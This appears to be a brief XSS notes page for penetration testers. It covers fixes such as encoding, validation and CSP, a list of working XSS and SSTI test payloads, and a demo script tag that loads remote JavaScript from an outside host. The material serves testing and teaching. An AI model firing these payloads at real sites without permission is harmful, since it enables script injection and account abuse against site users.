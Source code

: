 # XSS
* XSS can do anything a logged in user can do.

* You fix XSS by fixing the output or input:
	* Output - Encode data to make it safe:
	* Input - Validation, Whitelists
* Secondarily, you protect with a Content Security Policy (CSP), which is an HTTP Header

## Testing
```html

Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.



JS:          <script>alert('Honk');</script>
SVG:         <svg onload=prompt(/svg/) />
IMG SRC:     <img src="alert('img src')" />
IMG ONERROR: <img src="error" onerror="alert('img error')" />

http://example.com/index.php?user=<script>alert(123)</script>
```



## Quick manual spray of an application input
```html
'"><svg/onload=alert()>{{9*74}}
```
This provides indicators of basic SQLi, XSS and SSTI vulnerabilities. Always remember to rest for SSTI (Server-Side Template Injection). Test for it the same way you would for XSS. A few simple payloads like ```{{7*7}}``` and if they get replaced by '49' then you've just found a high/critical vulnerability. You need to get a PoC though!


https://github.com/payloadbox/xss-payload-list



## Demo: Harlem Shake

```html
<script defer src="https://rafaelhart.com/shake.js"></script>
```


